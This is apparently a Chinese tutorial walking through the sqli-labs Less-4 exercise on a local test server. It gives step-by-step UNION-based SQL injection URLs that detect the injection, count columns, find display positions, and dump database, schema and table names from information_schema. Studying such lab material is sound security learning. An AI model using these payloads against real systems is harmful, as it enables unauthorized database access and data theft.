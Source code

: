  


http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=1") and 1=2--+
（1=2是错误，且无回显，是1=2注入到数据库影响的）
所有存在字符型注入

 


<hr/>

<h3>**第二步：查询字段数**</h3>
猜的话，使用二分法往下猜

http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=1") order by 3--+
（3的时候正常回显，3以下就都能回显，现在应该往上猜）

 

http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=1") order by 4--+
（4的时候报错了，说明是3了）

 


<hr/>
<h3>**第三步：判断回显位**</h3>
使用联合查询union
将id赋值为假（eg：id=-1）
http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=-1") union select 1,2,3--+

 

 报错回显2，3
说明第2，3个位置可以报错回显查询
<hr/>

<h3>**第四步：查询数据库的基本信息**</h3>
在第2，3列输入需要查询的命令
http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=-1") union select 1,database(),user()--+
报错回显

 


<hr/>

<h3>**第五步：爆数据库名**</h3>

http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata--+

 


<hr/>


<h3>**第六步：爆数据库表名**</h3>

http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

 

后面的表名'security'也可以直接用database() 
是一样的效果
http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
